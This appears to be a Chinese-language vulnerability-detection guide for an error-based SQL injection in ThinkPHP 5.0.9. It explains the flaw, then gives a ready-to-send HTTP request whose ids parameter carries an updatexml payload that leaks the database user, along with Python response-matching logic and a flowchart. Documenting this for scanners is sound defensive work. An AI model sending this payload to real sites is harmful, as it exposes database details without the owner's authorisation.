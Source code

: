 # ThinkPHP 5.0.9 信息泄露（SQL注入报错）漏洞（thinkphp-509-information-disclosure）检测说明

## 漏洞简介

ThinkPHP 5.0.9 存在SQL注入报错信息泄露漏洞，攻击者可通过构造恶意请求触发详细SQL错误，进而获取数据库敏感信息（如用户名、连接信息等）。

## 影响范围

- 产品：ThinkPHP
- 影响版本：5.0.9
- CVE编号：无（社区编号 thinkphp-509-information-disclosure）
- 危害等级：Critical

## 漏洞原理

/index.php接口的参数未做有效过滤，攻击者可通过ids参数注入SQL语句，利用updatexml函数触发数据库报错，详细错误信息在响应中回显。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的GET请求，ids参数注入`[0,updatexml(0,concat(0xa,user()),0)]`。
2. 服务器端未对参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，触发报错，详细错误信息（如SQLSTATE、XPATH syntax error）在响应中回显。
4. 攻击者分析响应内容，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1 HTTP/1.1
Host: target.com
```

- ids参数注入了`[0,updatexml(0,concat(0xa,user()),0)]`，用于触发数据库报错。

### 预期响应与交互

- 响应体需包含`SQLSTATE`和`XPATH syntax error`。
- HTTP状态码为500。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 500 and 'SQLSTATE' in response.text and 'XPATH syntax error' in response.text:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带注入payload的GET请求] --> B[接收HTTP响应]
    B --> C{响应体含SQLSTATE和XPATH syntax error?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{状态码为500?}
    D -- 否 --> F
    D -- 是 --> G[判定存在SQL报错信息泄露漏洞]
```

## 参考链接

- [Vulhub - ThinkPHP SQL注入](https://github.com/vulhub/vulhub/tree/0a0bc719f9a9ad5b27854e92bc4dfa17deea25b4/thinkphp/in-sqlinjection) 